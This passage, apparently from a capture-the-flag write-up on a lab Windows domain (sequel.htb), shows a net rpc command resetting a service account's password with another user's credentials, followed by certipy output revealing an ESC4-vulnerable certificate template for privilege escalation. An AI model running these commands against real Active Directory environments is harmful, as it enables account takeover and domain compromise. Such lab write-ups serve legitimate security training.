 
```
net rpc password "ca_svc" "password" -U "sequel.htb"/"ryan"%"WqSZAF6CysDQbGb3" -S "DC01.sequel.htb"
```

## Privilege Escalation
The certificate authority account can have special permissions over different certificate templates which may be vulnerable to exploits. We can use certipy to find these vulnerabilities.

```
certipy find -u ca_svc@sequel.htb -password password -stdout -vuln

Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```
